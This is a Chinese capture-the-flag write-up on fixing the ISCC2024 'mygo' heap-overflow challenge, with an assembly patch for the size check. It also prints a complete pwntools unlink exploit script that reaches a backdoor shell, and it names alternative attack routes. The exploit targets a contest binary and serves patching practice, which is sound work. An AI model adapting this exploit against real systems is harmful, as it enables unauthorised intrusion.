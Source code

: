 #### 1:[ISCC2024]mygo(fix)

简单的讲一下[ISCC2024]mygo是怎么fix的.

首先,我们知道,题目的主要漏洞点在edit_song没有判断chunk的大小,而是使用用户输入的值作为chunk的大小.这导致了相当明显的堆溢出,如下图所示.

![mygofix0](C:\Users\POI\Desktop\周报\周报07\mygofix0.png)

那么我们可以很自然的联想到和栈溢出相同的修复思路:将size设为一个不会引起溢出的大小.虽然这题的程序并没有在任何地方保存chunk数据域的大小,但chunk本身的size域是无论如何都会存在的.正好程序将chunk的数据域指针保存在了rax中,而chunk的size域指针就在它前面0x8的位置.于是我们形成思路如下:

1. 将rsi设为[rax-0x8]
2. 将rsi的最低3位置为0
3. 将rsi减去0x8

为什么要将rsi的低3位置0?因为由于标志位的原因,如果一个chunk的前面一个chunk正在使用,那么它的size的最低位就会为1.在这种情况下,很可能会产生off_by_one漏洞,使我们的修复没有起到应有的效果.剩下两个标志位出于相似的原因,我们也应该将它置0.

为什么是将rsi减去0x8,而非减去0x10得到数据域的正确大小?因为正在使用的chunk可以将物理位置相邻的chunk的pre_size用于存储数据.如果我们选择减去0x10的话,就可能导致当用户申请的空间为0x\*8~0x\*F时程序无法正常运作.

那么根据这个思路,我们编写代码如下:

```assembly
	mov     rsi, [rax-8]
	and     si, 0FFF8h
	sub     rsi, 8
```

不过我们还面临一个问题:这三条语句的长度为0xC字节,而原本设置rsi的两句语句长度只有0x7字节.不过好在这段汇编代码中有足足三处`mov *,0`这样的语句,我们每将一处改为`xor *,*` ,就能为我们省出0x3字节的空间.这样我们就完全不需要`jmp`来`jmp`去了.

那么最终,我们编写代码如下:

![mygofix1](C:\Users\POI\Desktop\周报\周报07\mygofix1.png)

#### 2:不需要很累很麻烦也能修好的mygo(谁家千早爱音)

众所周知,在awd赛制中,我们修一道题的最终目的,就是防止别人打(废话).但是,要想防止别人打,我们不一定需要修.

就拿mygo这道题来说,这是我写的脚本:

```python
from pwn import*
context.log_level='debug'
context.arch='amd64'

r=process("./mygo")
pause()
def cre_s(size,content):
    r.recvuntil(b"Your choice :")
    r.sendline(b"1")
    r.sendline(str(size))
    r.send(content)

def edi_s(index,size,content):
    r.recvuntil(b"Your choice :")
    r.sendline(b"2")
    r.sendline(str(index))
    r.sendline(str(size))
    r.send(content.ljust(size,b'\x00'))

def del_s(index):
    r.recvuntil(b"Your choice :")
    r.sendline(b"3")
    r.sendline(str(index))

def itsmygo():
    r.recvuntil(b"Your choice :")
    r.sendline(b"947")

heap_add=0x6020E0

cre_s(0x48,b'a')
cre_s(0x80,b'a')
cre_s(0x80,b'a')

pay1=p64(0)+p64(0x41)+p64(heap_add-0x18)+p64(heap_add-0x10)+b'a'*0x20+p64(0x40)+p64(0x90)
edi_s(0,0x50,pay1)
del_s(1)
edi_s(0,0x20,p64(0)*3+p64(0x6020c0))
edi_s(0,0x8,p64(0x1306))
itsmygo()

r.interactive()
```

可以看到这个脚本写的没什么问题,稍微改改应该也能去打线上.

但如果我们想防住这个脚本,并不需要像上面那样去真正修改它.

看到这个mygo了吗?

![mygofix2](C:\Users\POI\Desktop\周报\周报07\mygofix2.png)![mygofix3](C:\Users\POI\Desktop\周报\周报07\mygofix3.png)

好了,修好了.(我是来结束乐队的.jpg)

由于上面的那个解题脚本依赖后门函数获取shell,所以我们只需要把后门函数删了,上面的脚本就拿不到shell了(又是经典的废话环节).虽然这题就算删了后门函数,也能通过修改got表,或者用unsorted_bin_attack泄露libc基址后直接用one_gadget解题(甚至unlink都不是必须的,完全可以通过制造chunk重叠来实现任意地址写),但是**谁会这么吃饱了撑的**.而别的队伍也拿不到你修完的二进制文件,所以他们也不知道你是怎么修的.只要主办方不要让pwn手吃的太饱,这么修应该也能解决大部分问题.

当然,就算你已经按照正常方法修复了漏洞,也建议把后门函数删了以防万一.最好把`/bin/sh`字符串也给删了,或者把/bin/sh改成cat ./*之类的来增加别人的血压.

